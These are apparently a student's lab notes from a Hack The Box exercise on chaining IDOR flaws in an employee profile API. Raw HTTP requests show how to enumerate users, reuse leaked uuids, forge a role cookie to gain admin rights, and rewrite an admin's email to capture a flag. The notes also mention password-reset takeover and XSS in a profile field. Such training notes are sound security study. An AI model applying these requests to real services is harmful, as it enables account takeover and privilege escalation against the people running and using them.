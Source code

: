 # Chaining IDOR Vulnerabilities

## Information Disclosure

GET /profile/api.php/profile/2 HTTP/1.1

{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation and few minutes of cyber-incident to ruin it."
}

## Modifying Other Users' Details

--> Using the uuid previously obtained to modify user information

PUT /profile/api.php/profile/2
"uuid": "4a9bd19b3b8676199592a346051f950c"

{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "pwned",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation and few minutes of cyber-incident to ruin it."
}

Other attacks :
- Modifying a user's email address and then requesting a password reset link
- Placing an XSS payload in the 'about' field

## Chaining Two IDOR Vulnerabilities

Write a script to enumerate all users, similarly to what we did previously :

{
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}

--> Use that to modify our role to web_admin

Set our Cookie :

Cookie: role=web_admin

## LAB

Cookie: role=web_admin

GET /profile/api.php/profile/1 HTTP/1.1
Host: 94.237.55.163:30646
Content-Length: 208
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://94.237.55.163:30646
Referer: http://94.237.55.163:30646/profile/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: role=employee
Connection: close

{"uid":1,"uuid":"40f5888b67c748df7efba008e7c2f9d2","role":"web_admin","full_name":"Amy Lindon","email":"a_lindon@employees.htb","about":"A Release is like a boat. 80% of the holes plugged is not good enough."}


- Burp Suite : Intruder

GET /profile/api.php/profile/§1§ HTTP/1.1
Host: 94.237.55.163:30646
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: */*
Referer: http://94.237.55.163:30646/profile/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: role=web_admin

{"uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"admin@employees.htb","about":"Never gonna give you up, Never gonna let you down"}

flag@idor.htb

PUT /profile/api.php/profile/10
"uuid": "bfd92386a1b48076792e68b596846499"

{
    "uid":"10",
    "uuid":"bfd92386a1b48076792e68b596846499",
    "role":"staff_admin",
    "full_name":"admin",
    "email": "flag@idor.htb",
    "about":"Never gonna give you up, Never gonna let you down"
}


PUT /profile/api.php/profile/10 HTTP/1.1
Host: 94.237.55.163:55840
Content-Length: 208
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://94.237.55.163:55840
Referer: http://94.237.55.163:55840/profile/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: role=staff_admin
Connection: close

{
    "uid":"10",
    "uuid":"bfd92386a1b48076792e68b596846499",
    "role":"staff_admin",
    "full_name":"admin",
    "email": "flag@idor.htb",
    "about":"Never gonna give you up, Never gonna let you down"
}

HTB{1_4m_4n_1d0r_m4573r}